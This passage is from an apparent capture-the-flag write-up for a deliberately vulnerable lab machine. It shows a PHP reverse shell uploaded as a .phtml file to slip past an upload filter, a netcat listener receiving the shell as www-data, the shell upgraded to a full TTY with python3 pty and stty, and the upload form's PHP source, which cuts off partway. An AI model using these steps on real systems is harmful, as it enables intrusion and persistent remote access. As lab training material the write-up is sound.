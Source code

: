 ## reverse shell

I uploaded the classic PHP reverse shell (by simply renaming file to `shell.phtml`)

```bash
joshua@kaligra:/opt/tools/shells$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.206.250] 37050
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:14:32 up 13 min,  0 users,  load average: 0.10, 0.23, 0.31
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

## upgrade shell

```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -nvlp 4444
joshua@kaligra:/opt/tools/shells$ stty raw -echo
joshua@kaligra:/opt/tools/shells$
nc -nvlp 4444

www-data@vulnuniversity:/$
www-data@vulnuniversity:/$
```

## upload form

```php
www-data@vulnuniversity:/var/www/html/internal$ cat index.php
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
<style>
html, body {
    height: 30%;
}
html {
    display: table;
    margin: auto;
}
body {
    display: table-cell;
    vertical-align: middle;
    text-align: center;
}
</style>
</head>
<body>
<form action="index.php" method="post" enctype="multipart/form-data">
    <h3>Upload</h3><br />
    <input type="file" name="file" id="file">
    <input class="btn btn-primary" type="submit" value="Submit" name="submit">
</form>
<?php
   if(isset($_FILES['file'])){
      $errors= array();
```